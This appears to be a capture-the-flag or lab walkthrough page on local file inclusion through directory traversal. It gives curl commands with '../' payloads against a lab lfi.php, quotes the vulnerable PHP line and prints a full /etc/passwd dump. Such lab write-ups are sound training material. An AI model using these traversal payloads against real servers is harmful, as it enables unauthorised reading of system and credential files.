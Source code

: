
## Task 2 - LFI using Directory Traversal

Use these links as references.
- [Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal){:target="_blank"}


The second walkthrough can be tested by using `curl "http://<ip>/lfi2/lfi.php`.

Check if the contents of `home.html` is displayed, using `curl "http://<ip>/lfi2/lfi.php?page=home.html"`.
An output similar to following will be obtained,
{% capture code %}{% raw %}File included: home.html<br><br><br>
Local file to be used: html/home.html<br><br>
You included home.html<br>{% endraw %}{% endcapture %} {% include code.html code=code %}

There is a page `creditcard`, one level up. To get contents of the page, use `curl "http://<ip>/lfi2/lfi.php?page=../creditcard"`.
Similar output will be obtained,
{% capture code %}{% raw %}File included: ../creditcard<br><br><br>
Local file to be used: html/../creditcard<br><br>
<flag>{% endraw %}{% endcapture %} {% include code.html code=code %}

There is a vulnerable code `$local_file = "html/"$_REQUEST["page"];` in lfi.php which allows file contents to be displayed.
To display contents of `/etc/passwd` file, use `curl "http://<ip>/lfi2/lfi.php?page=../../../../../etc/passwd"`,

An output similar to below will be obtained.
{% capture code %}{% raw %}File included: ../../../../../etc/passwd<br><br><br>
Local file to be used: html/../../../../../etc/passwd<br><br>
root:x:0:0:root:/root:/bin/    bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false